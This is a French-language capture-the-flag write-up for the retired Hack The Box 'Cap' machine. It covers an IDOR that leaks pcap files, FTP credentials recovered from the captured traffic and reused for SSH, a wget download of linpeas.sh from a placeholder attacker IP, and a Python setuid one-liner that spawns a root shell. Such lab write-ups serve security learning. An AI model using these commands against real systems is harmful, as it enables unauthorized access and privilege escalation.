 # Cap (HTB - Retired - Easy)
**Date :** 07/05/2025  
**Catégorie :** IDOR, FTP credentials, SUID Python PrivEsc  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap

```bash
nmap -Pn -sV nmap.txt 10.10.11.XXX
```

![Nmap results](./nmap_cap.png)

Résultat :
21/tcp - FTP

22/tcp - SSH

80/tcp - HTTP

## Enum Web
Sur le port 80, on accède à un site affichant un dashboard, avec plusieurs onglets, dont un nommé Security Snapshot.
L’URL lors de la consultation d’un rapport ressemble à :
http://10.10.11.XXX/data/0

## IDOR (Insecure Direct Object Reference)
Changement de la valeur dans l’URL (/data/1, /data/2, etc.) permet de télécharger différents fichiers .pcap.
On télécharge ceux qui semblent intéressants et on les ouvre avec Wireshark.
## Analyse de fichier PCAP
Dans le fichier correspondant à /data/0, on observe des transferts FTP en clair, et on identifie :
Nom d’utilisateur FTP


Mot de passe FTP


(Le tout visible dans les paquets FTP Request et FTP Response.)

```markdown
![Wireshark](./cap_wireshark.png)
```

## Accès FTP & SSH
Connexion au serveur FTP :
```bash
ftp 10.10.11.XXX
```

Les identifiants FTP fonctionnent également pour se connecter en SSH :
```bash
ssh user@10.10.11.XXX
```
Flag user.txt trouvé dans le répertoire home.
```markdown
![FTP](../HTB/retired/cap/co_ftp.png)
```

```markdown
![Userflag and linpeas import](./cap_user_linpeas.png)
```

## Escalade de privilèges
Upload de linpeas.sh pour l’analyse locale :
### Sur la machine attaquante
```bash
python3 -m http.server 8000
```

### Sur la cible
```bash
wget http://<attacker_ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## SUID Python trouvé :
```bash
-rwsr-xr-x 1 root root 3700736 Jul  7  2021 /usr/bin/python3.8
```

## Exploitation SUID Python
Lancement de Python avec élévation des privilèges :
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

On obtient un shell root, puis :
```bash
cat /root/root.txt
```

## 🛠️ Résumé des étapes

| Étape                | Technique                          |
|----------------------|------------------------------------|
| Initial Access       | IDOR via `/data/<id>`              |
| Credential Access    | Analyse de `.pcap` → FTP creds     |
| Lateral Movement     | Reuse FTP creds → SSH              |
| Privilege Escalation | SUID Python 3.8 → root shell       |
